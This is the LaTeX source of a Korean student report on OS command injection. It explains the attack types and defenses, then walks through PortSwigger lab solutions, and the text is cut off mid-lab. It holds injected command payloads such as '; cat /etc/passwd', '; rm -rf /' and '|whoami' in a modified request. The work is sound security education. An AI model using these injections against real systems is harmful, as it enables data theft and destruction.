\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage{geometry}
 \geometry{
 a4paper,
 total={170mm,257mm},
 left=20mm,
 top=20mm,
 }
 \usepackage{graphicx}
 \usepackage{titling}
 \usepackage{kotex}
 \usepackage{hyperref}
 \usepackage{caption} 
 \usepackage{graphicx} 

 \title{Introduction of Command Injection and Practice}
\author{Jeongmin Lee}
\date{September 2025}
 
 \usepackage{fancyhdr}
\setlength{\headheight}{12.5pt}
\usepackage{listings}
\lstset{
  basicstyle=\ttfamily\footnotesize,
  frame=single,
  columns=fullflexible,
  keepspaces=true,
  breaklines=true,
  captionpos=b,
  tabsize=2,
  language=Python
}
\fancypagestyle{plain}{%  the preset of fancyhdr 
    \fancyhf{} % clear all header and footer fields
  % If the image is missing, comment out the next line or provide a fallback
  % \fancyfoot[R]{\includegraphics[width=2cm]{KULEUVEN_GENT_RGB_LOGO.png}}
  \fancyfoot[R]{KUCSEPotato}
  \fancyfoot[L]{September 2025}
  \fancyhead[L]{Information Security Assignment1}
  \fancyhead[R]{Jeongmin Lee}
}
\makeatletter
\def\@maketitle{%
  \newpage
  \null
  \vskip 1em%
  \begin{center}%
  \let \footnote \thanks
    {\LARGE \@title \par}%
    \vskip 1em%
    %{\large \@date}%
  \end{center}%
  \par
  \vskip 1em}
\makeatother

\usepackage{lipsum}  
\usepackage{cmbright}

\begin{document}

\maketitle

\noindent\begin{tabular}{@{}ll}
  Student & Jeongmin Lee\\
  Contributor & \textit{Jonghyeok Kim, Chanhang Lee, Nurnazihah Intan, VIDAL VILLALBA PEDRO}\\
\end{tabular}

\section*{개요}
본 보고서는 명령어 삽입 공격(Command Injection)에 대해 다루며, 수업에서 제공된 강의자료 및 유튜브 영상들을 참고하여 작성되었습니다.
부족하다고 판단되는 부분은 추가적으로 인터넷에서 관련 자료를 조사하여 내용을 보완하였습니다. 

보고서를 통해서 명령어 삽입 공격의 개념, 유형, 실제 사례, 그리고 이를 방지하기 위한 모범 사례에 대해 심도 있게 이해하는 것을 목표로 합니다.

\section*{명령어 삽입 공격이란?}
명령어 삽입 공격이란 웹 애플리케이션의 취약점을 악용하여 공격자가 임의의 시스템 명령을 실행할 수 있도록 하는 보안 취약점입니다.
이러한 공격은 사용자 입력이 적절하게 검증되지 않거나 필터링되지 않는 경우에 발생합니다. 
공격자는 악의적인 명령어를 입력하여 시스템에서 원하지 않는 작업을 수행하거나 민감한 정보를 탈취할 수 있습니다.

명령어 삽입 공격은 SQL 삽입 공격과 유사합니다. 그러나 주요 차이점은 SQL 삽입이 데이터베이스에 SQL 명령을 삽입하는 반면, 
명령어 삽입은 호스트 운영 체제에서 시스템 수준 명령을 실행할 수 있도록 한다는 점입니다. 
다시 말해, SQL 삽입은 SQL 쿼리를 조작하여 데이터베이스를 대상으로 하는 반면, 명령어 삽입은 OS 수준에서 임의의 명령 실행을 허용하는 취약점을 악용합니다.

최악의 경우 공격자가 시스템에서 정보를 유출(exfiltrate)하거나 원격 코드 실행(Remote Code Execution, RCE)을 달성할 수 있습니다.
이를 통해 공격자는 시스템에 리버스 쉘(reverse shell)을 추가하여 완전한 제어 권한을 획득하고 웹 서버에서 임의의 명령을 실행할 수 있습니다.

\subsection*{간단한 예시}

예를 들어, 사용자가 입력한 IP 주소를 이용해 서버가 다음과 같이 ping 명령을 실행한다고 가정합시다.

\begin{itemize}
  \item 정상 입력: \texttt{ping 127.0.0.1}
  \item 공격 입력: \texttt{127.0.0.1; cat /etc/passwd}
  \item 실제 실행되는 명령: \texttt{ping 127.0.0.1; cat /etc/passwd}
\end{itemize}

이 경우, 서버는 ping 명령뿐만 아니라 추가로 \texttt{cat /etc/passwd} 명령도 실행하여 시스템의 패스워드 파일 내용을 공격자에게 노출할 수 있습니다.
아래는 Python으로 작성된 취약한 코드 예시입니다.

\begin{lstlisting}[caption={취약한 코드 예시 — ping 명령어에 사용자 입력을 직접 결합}]
user_input = request.args.get("ip")  # e.g., "127.0.0.1; cat /etc/passwd"
cmd = "ping " + user_input
os.system(cmd)  # Executes the entire command via shell
\end{lstlisting}

\subsection*{명령어 삽입 공격의 유형}
명령어 삽입 공격의 유형은 크게 세 가지로 나뉩니다. 

첫째, \textbf{직접 명령어 삽입(In-band Command Injection)}은 공격자가 삽입한 명령의 출력이나 결과가 애플리케이션의 응답(Http Response등)에 그대로 포함되어 돌아오는 경우를 가리킵니다.
이 유형의 경우 빠르고 단순하게 정보(디렉터리 목록, 파일 내용 등)을 확인 할 수 있습니다. 앞서 살펴본 간단한 예시가 이에 해당합니다.

둘째, \textbf{간접 명령어 삽입(Blind Command Injection)}은 공격자가 명령을 삽입하여 서버에서 명령이 실행되더라도 명령의 결과(출력)가 HTTP 응답으로 직접 반환되지 않는 경우를 가리킵니다.
공격자는 출력 없이도 다양한 기법으로 명령의 성공/실패 또는 시스템의 정보를 얻어냅니다. 
응답 본문에 명령 결과가 없기 때문에 공격자가 “눈으로 직접 보지 못한다”는 의미에서 ‘blind’라 부름니다.

셋째, \textbf{Out-of-Band(OOB) Command Injection}는 명령의 출력이 공격자가 제어하는 별도 채널(예: DNS, HTTP 콜백, 이메일 등)로 전송되어 공격자가 그 채널에서 응답을 확인하는 경우를 가리킵니다. 
일부 자료에서는 Blind의 하위 범주로 보기도 하고, 별도 유형으로 구분하기도 합니다. 저의 보고서에서는 별도 유형으로 구분합니다.


\section*{명령어 삽입 취약점의 영향 및 심각성}

명령어 삽입 취약점은 시스템과 서비스에 매우 심각한 영향을 미칠 수 있습니다. 주요 영향과 그 심각성은 다음과 같습니다.

\begin{itemize}
  \item \textbf{민감 정보 유출}: 공격자는 시스템 명령을 통해 서버 내의 중요한 파일(예: /etc/passwd, 환경설정 파일 등)을 읽거나 외부로 전송할 수 있습니다. 이는 개인정보, 인증 정보, 시스템 설정 등이 노출되는 결과를 초래합니다.
  \item \textbf{원격 코드 실행(RCE) 및 권한 상승}: 공격자는 임의의 명령을 실행하여 시스템에 악성코드(백도어, 리버스 쉘 등)를 설치하거나, 권한을 상승시켜 서버 전체를 제어할 수 있습니다. 이는 서비스 운영자에게 치명적인 피해를 줄 수 있습니다.
  \item \textbf{서비스 거부(DoS) 및 시스템 장애}: 공격자가 무한 루프, 대용량 파일 생성, 시스템 자원 소모 명령 등을 실행하면 서비스가 중단되거나 서버가 다운될 수 있습니다.
  \item \textbf{데이터 무결성/가용성/기밀성 손상}: 파일 삭제, 데이터 변조, 시스템 설정 변경 등으로 인해 데이터의 무결성, 가용성, 기밀성이 모두 위협받을 수 있습니다.
  \item \textbf{다른 시스템 공격의 발판}: 명령어 삽입을 통해 공격자는 서버를 거점 삼아 내부망 또는 외부망의 다른 시스템을 추가로 공격할 수 있습니다. 예를 들어, 네트워크 스캐닝, 추가 악성코드 배포 등이 가능합니다.
  \item \textbf{법적/신뢰도 문제}: 정보 유출이나 서비스 장애가 발생하면 기업이나 기관은 법적 책임, 평판 하락, 신뢰도 저하 등 2차 피해도 입을 수 있습니다.
\end{itemize}

이처럼 명령어 삽입 취약점은 단순한 정보 유출을 넘어 시스템 전체의 보안과 안정성, 조직의 신뢰도까지 심각하게 위협할 수 있으므로 반드시 예방 및 신속한 대응이 필요합니다.

\section*{예방 및 방어 전략}
명령어 삽입(Command Injection) 취약점을 예방하는 핵심은 \textbf{운영 체제의 셸 명령을 직접 호출하지 않는 것}입니다.  
즉, 가능한 한 애플리케이션 로직에서 셸을 거치지 않고, 안전한 API나 전용 함수만을 사용하는 것이 최우선 방어책입니다.  
그 외의 보완적 방어 기법은 아래와 같습니다.

\begin{itemize}
  \item \textbf{입력 검증 및 정규화(Input Validation and Sanitization)}:  
  사용자 입력을 엄격히 검증하고 예상치 못한 메타문자가 포함되지 않도록 정규화합니다.  
  특히, 정규 표현식이나 스키마를 통해 허용되는 문자 집합을 제한합니다.  
  \begin{itemize}
    \item \textbf{화이트리스트 기반 검증}: 허용된 값이나 패턴만 입력으로 받도록 합니다.  
    예: IPv4 주소는 숫자와 점(\texttt{.})만 허용.
  \end{itemize}

  \begin{lstlisting}[caption={Python 예시: IPv4 입력값 검증 및 안전 실행}]
  import re, subprocess

  def is_valid_ipv4(ip):
      pattern = r"^([0-9]{1,3}\.){3}[0-9]{1,3}$"
      return re.match(pattern, ip) is not None

  user_input = request.args.get("ip")
  if is_valid_ipv4(user_input):
      subprocess.run(["ping", user_input], check=True)  # shell=False
  else:
      raise ValueError("Invalid IP address")
  \end{lstlisting}

  \item \textbf{안전한 API 및 라이브러리 함수 사용}:  
  시스템 호출을 직접 문자열로 조합하기보다, 의도한 작업만 수행할 수 있는 안전한 함수 호출을 사용합니다.  
  예를 들어, 디렉터리 생성은 \texttt{os.mkdir()}와 같은 전용 API를 사용합니다.

  \begin{lstlisting}[caption={안전하지 않은 방식 vs. 안전한 방식}]
  import os

  # Vulnerable way (allows command injection)
  user_input = "new_directory; rm -rf /"  # Malicious input
  os.system("mkdir " + user_input)  

  # Safe way (only creates directory)
  os.mkdir(user_input)
  \end{lstlisting}

  \item \textbf{최소 권한 원칙(Principle of Least Privilege)}:  
  애플리케이션을 불필요하게 높은 권한(예: root)으로 실행하지 않도록 하고,  
  실행 계정의 권한을 최소화하여 공격 성공 시에도 피해 범위를 줄입니다.

  \item \textbf{보안 옵션 및 프레임워크 활용}:  
  Python의 \texttt{subprocess} 모듈에서 \texttt{shell=False} 옵션을 사용하거나,  
  다른 언어에서도 인자 리스트 기반 실행 방식을 활용해 셸 해석을 회피합니다.  
  또한, 최신 보안 프레임워크나 라이브러리를 적용하여 입력 검증, 로깅, 오류 처리 등을 체계적으로 관리합니다.
  
  \begin{lstlisting}[caption={Python: subprocess.run 사용 (shell=False). 입력 검증 포함}]
  import re
  import subprocess

  def is_valid_ipv4(ip: str) -> bool:
      pattern = r"^([0-9]{1,3}\.){3}[0-9]{1,3}$"
      return re.match(pattern, ip) is not None

  user_input = request.args.get("ip", "")

  if not is_valid_ipv4(user_input):
      raise ValueError("Invalid IP")

  subprocess.run(["ping", "-c", "4", user_input], check=True, shell=False)
  \end{lstlisting}

  \item \textbf{출력 인코딩(Output Encoding)}:  
  명령 실행 결과나 에러 메시지가 HTML, JSON 등으로 사용자에게 반환될 때는 반드시 적절히 인코딩합니다.  
  이는 Command Injection이 XSS 등 다른 취약점과 결합되는 것을 방지하는 추가적인 보안 계층입니다.
\end{itemize}

\newpage
\section*{실제 적용}
실제로 명령어 삽입 공격을 실습해보았습니다. 실습은 \url{https://portswigger.net/web-security/all-labs#os-command-injection} 에서 진행하였습니다.

실습을 진행하며, 위에서 설명하지 않은 부분들에 대해서 추가 설명을 덧붙이겠습니다.
단, 4번 5번 문항의 경우 Burp Collaborator가 필요합니다. 이는 유료 Burp Suite Professional 에디션에서만 사용할 수 있으며, 연간 라이센스 비용이 400 달러 이상입니다. 
따라서 이 보고서에서는 Collaborator가 필요한 문제 4와 5를 제외합니다.

\subsection*{Lab: OS command injection, simple case}
\begin{description}
  \item[\textbf{문제 설명:}] 이 랩은 상품 재고 조회기(product stock checker) 애플리케이션의 운영체제 명령어 삽입(OS command injection) 취약점을 다룹니다.
  \item[\textbf{핵심 포인트}:]\leavevmode\par
    \begin{itemize}
      \item 애플리케이션은 사용자가 입력한 상품 ID와 매장 ID를 포함한 셸 명령을 실행합니다.
      \item 셸 명령의 원시 출력(\texttt{raw output})이 HTTP 응답에 그대로 반환됩니다.
    \end{itemize}
  \item [\textbf{문제 목표}:] 취약점을 이용해 \texttt{whoami} 명령을 실행하고, 현재 사용자의 이름을 확인하세요.
  \item[\textbf{풀이 배경 지식}:]\leavevmode\par
    명령어 삽입 취약점을 이용하여 공격을 하기 위해서는 많은 리눅스 명령어를 아는 것이 도움이 됩니다. 추가적인 명령어 목록은 첨부된 \texttt{Linux\_Cmd.tex} 파일에 정리되어 있습니다.
    \begin{itemize}
      \item \texttt{whoami} 명령어: 현재 사용자의 이름을 출력합니다.
      \item 명령어 구분자(문법적 개념): 쉘에서 여러 명령을 구분하는 문법 요소가 존재한다는 점을 이해하면 취약점의 원리를 해석하는 데 도움이 됩니다. Table1을 참고하시기 바랍니다.
      \item HTTP 메서드: HTTP 요청의 메서드에는 GET, POST, PUT, DELETE 등이 있습니다. 각 메서드별 설명은 Table2를 참고하시기 바랍니다.
      \item Burpsuite: Burp Suite는 프록시(Proxy) 서버를 사용하여 클라이언트와 서버가 주고받는 패킷을 가로채 위변조가 가능하게 해주는 프로그램입니다. 명령어 삽입 공격을 위해서는 이 도구의 사용법을 숙지하고 계셔야 합니다. 
    \end{itemize}

      \begin{center}
        % 목록 내부에서도 표 제목/라벨을 쓰려면 captionof 사용
        \captionof{table}{명령어 구분자}\label{tab:shell-ops-extended}
        \vspace{0.5em}

        \begin{tabular}{p{1.6cm} p{6cm} p{5cm} p{3.2cm}}
          \hline
          \textbf{연산자} & \textbf{설명} & \textbf{언제 뒤 명령을 실행하는가} & \textbf{예시 및 비고} \\
          \hline
          \texttt{;} & 명령 구분자. 순차적으로 실행. & 항상. 앞 명령 성공 여부와 무관. & \texttt{echo a; echo b} — a, b 순차 출력 \\
          \texttt{\&\&} & 조건적 AND. 앞 명령 성공 시 뒤 명령 실행. & 앞 명령의 종료코드 == 0 일 때. & \texttt{make \&\& echo "빌드 성공"} \\
          \texttt{||} & 조건적 OR. 앞 명령 실패 시 뒤 명령 실행. & 앞 명령의 종료코드 != 0 일 때. & \texttt{grep foo file || echo "없음"} \\
          \texttt{\textbar} & 파이프. 왼쪽의 stdout → 오른쪽의 stdin. & 항상(연결됨). 두 프로세스가 동시에 실행됨. & \texttt{ps aux \textbar\ grep ssh} — 출력이 파이프 처리 \\
          \texttt{\&} & 백그라운드 실행(비동기). & 명령이 백그라운드로 실행되며 프롬프트 즉시 반환. & \texttt{long\_task \&} — PID가 반환됨 \\
          \hline
        \end{tabular}
      \end{center}

     \begin{center}

      \captionof{table}{HTTP 메서드}\label{tab:http-methods}
      \vspace{0.5em}

      \begin{tabular}{p{2.2cm} p{7.0cm} p{3.0cm}}
        \hline
        \textbf{메서드} & \textbf{설명} \\
        \hline
        \texttt{GET} & 자원 조회용. 서버 상태를 변경하지 않아야 함. \\
        \texttt{POST} & 자원 생성/처리 등 서버 상태 변경에 사용. \\
        \texttt{PUT} & 지정된 URI에 자원을 저장/교체. \\ 
        \texttt{PATCH} & 자원의 부분 변경(부분 업데이트). \\
        \texttt{DELETE} & 지정한 자원 삭제 요청. \\
        \hline
      \end{tabular}
    \end{center}

    \item[\textbf{풀이}:] \leavevmode\par
    서버 컴퓨터에 명령어를 보내 공격하여야 하기 때문에 저희가 주목해야 할 HTTP 요청은 POST 요청입니다.
    따라서, Burpsuite를 통해 요청을 가로채고, \texttt{whoami} 명령을 삽입하여 공격을 수행해야합니다.
    자세한 풀이 과정은 아래와 같습니다.
    \begin{enumerate}
      \item Burpsuite를 실행하고, Proxy 탭에서 Intercept가 On 상태임을 확인
      \item 브라우저에서 공격 대상 URL 접속
      \item 상품 ID와 매장 ID를 입력하고 "Check stock" 버튼 클릭
      \item Burpsuite Proxy 탭에서 요청이 가로채진 것을 확인
      
      \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure1.png}
      \caption{재고 조회 후 가로채진 요청}
      \label{fig:stock-checker}
      \end{figure}

      \item 요청의 본문에서 상품 ID와 매장 ID를 포함한 명령어를 수정하여 \texttt{whoami} 명령을 삽입
      
      \begin{lstlisting}[label={lst:original-request},caption={원본 요청 (original request)}]
      ...
      Referer: https://0a4b0031040a0f9c839e4998008f0083.web-security-academy.net/product?productId=1
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      productId=1&storeId=1
      \end{lstlisting}

      \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
      ...
      Referer: https://0a4b0031040a0f9c839e4998008f0083.web-security-academy.net/product?productId=1
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      productId=1&storeId=1|whoami
      \end{lstlisting}

      \item 수정된 요청을 서버로 전송
      \item 서버의 응답에서 \texttt{whoami} 명령의 결과 확인
      \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure2.png}
      \caption{whoami 명령의 결과}
      \label{fig:whoami-result}
      \end{figure}
      
    \end{enumerate}
\end{description}

\newpage
\subsection*{Lab: Blind OS command injection with time delays}
\begin{description}
  \item[\textbf{문제 설명:}] 이 실습은 피드백 기능(feedback function)에 존재하는 \emph{블라인드(Blind) OS 명령어 삽입} 취약점을 다룹니다.

  \item[\textbf{핵심 포인트:}]\leavevmode\par
    \begin{itemize}
      \item 애플리케이션은 사용자로부터 전달된 정보를 포함하는 셸 명령을 구성·실행할 가능성이 있습니다.
      \item 해당 셸 명령의 출력은 HTTP 응답으로 그대로 반환되지 않습니다(즉, 출력 기반 확인이 불가능한 블라인드 형태).
    \end{itemize}

  \item[\textbf{실습 목표:}]\leavevmode\par
    \begin{itemize}
      \item 취약점을 이용해 서버에 10초의 지연(delay)을 발생시키세요.
    \end{itemize}

  \item[\textbf{풀이 배경 지식}:]\leavevmode\par
    1번 문제와 마찬가지로 명령어 삽입 취약점을 이용하여 공격을 하기 위해서는 많은 리눅스 명령어를 아는 것이 도움이 됩니다.
    주입된 명령어를 사용해 시간 지연을 유발하면, 애플리케이션의 응답 소요 시간을 바탕으로 해당 명령이 실행되었는지 확인할 수 있습니다. 
    ping 명령은 전송할 ICMP 패킷 수를 지정할 수 있으므로 이런 목적에 적합합니다. 

    \begin{itemize}
      \item \texttt{ping -c 10 127.0.0.1} 명령을 사용하여 10개의 패킷을 전송하고 응답 시간을 측정합니다.
      \item 응답 시간이 10초 이상 걸리면, 해당 명령이 성공적으로 실행된 것으로 판단할 수 있습니다.
    \end{itemize}

    \item[\textbf{풀이}:] \leavevmode\par

    \begin{enumerate}
      \item Burpsuite를 실행하고, Proxy 탭에서 Intercept가 On 상태임을 확인
      \item 브라우저에서 공격 대상 URL 접속
      \item Submit feedback 버튼을 클릭하여 피드백 폼 제출
      \begin{figure}[htbp]
      \centering
